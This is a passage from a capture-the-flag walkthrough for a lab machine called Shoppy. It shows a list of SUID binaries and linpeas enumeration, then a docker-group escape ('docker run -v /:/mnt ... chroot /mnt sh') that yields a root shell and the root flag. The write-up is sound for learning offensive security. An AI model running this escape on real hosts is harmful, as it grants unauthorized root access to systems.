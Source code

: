 ```bash
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/xorg/Xorg.wrap
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/ntfs-3g
/usr/bin/vmware-user-suid-wrapper
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/fusermount3
```

I think it'd be better to have more deep investigation. So let's run `linpeas`.

```bash
deploy@shoppy:/tmp$ ./linpeas_linux_amd64 

<SNIP>

╔══════════╣ My user
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#users   
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)   

╔══════════╣ Superusers
root:x:0:0:root:/root:/bin/bash                                            

╔══════════╣ Users with console
deploy:x:1001:1001::/home/deploy:/bin/sh                                   
jaeger:x:1000:1000:jaeger,,,:/home/jaeger:/bin/bash
mattermost:x:998:997::/home/mattermost:/bin/sh
postgres:x:119:127:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
root:x:0:0:root:/root:/bin/bash
```

The only useful information is that the current user `deploy` belong to `docker` group.
Which means that the shell we have might be in `docker`.
If so, we have to break out from `docker`.

Here's an useful reference :
<https://gtfobins.github.io/gtfobins/docker/>

To break out exploiting `docker`, we have to run the following command;

```bash
deploy@shoppy:/tmp$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# whoami
root

# python3 -c 'import pty;pty.spawn("/bin/bash")'
root@ad47c0200333:/# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```

Yeah, now I'm root!

```bash
root@ad47c0200333:/# cd /root
root@ad47c0200333:~# ls
root.txt
root@ad47c0200333:~# cat root.txt
832143b79887fd5a4bcbf099ce22055f
```
